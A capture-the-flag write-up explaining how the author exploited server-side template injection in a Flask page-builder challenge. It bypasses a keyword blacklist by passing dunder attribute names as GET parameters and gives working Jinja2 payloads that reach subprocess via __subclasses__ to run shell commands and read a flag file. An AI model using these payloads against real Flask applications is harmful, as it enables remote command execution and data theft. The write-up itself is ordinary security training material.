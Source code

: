 ## Build a website 

***I made a website where y'all can create your own websites! Should be considerably secure even though I'm a bit rusty with Flask.***

![](https://i.ibb.co/Q6GnQPr/build-a-website.png?size=150)

On the form we can enter some html which will be converted to webpage. My first thought was to inject some SSTI and I saw that {{ 7*7 }} results in 49 so the framework will be flask.
after some tries I recognized that on back-end there must be some blacklist on "globals, class" words which some confusing message (there is no stack smashing, it seems to be written by hand!!) 

```*** stack smashing detected ***: python3 terminated```


OK, my solution is: Send blacklist words as a GET params and prepare a statement ommiting blacklist
To avoid converting to strings we need to use ```attr``` function

```
to list all classes:
{{
''|attr(request.args.p1)|attr(request.args.p2)|attr(request.args.p3)()
}}
```

to send os commands:
```
{{
(''|attr(request.args.p1)|attr(request.args.p2)|attr(request.args.p3)())[360]('cat flag.txt',shell=True,stdout=-1).communicate()
}}
```
with params:
```
&p1=__class__&p2=__base__&p3=__subclasses__
```
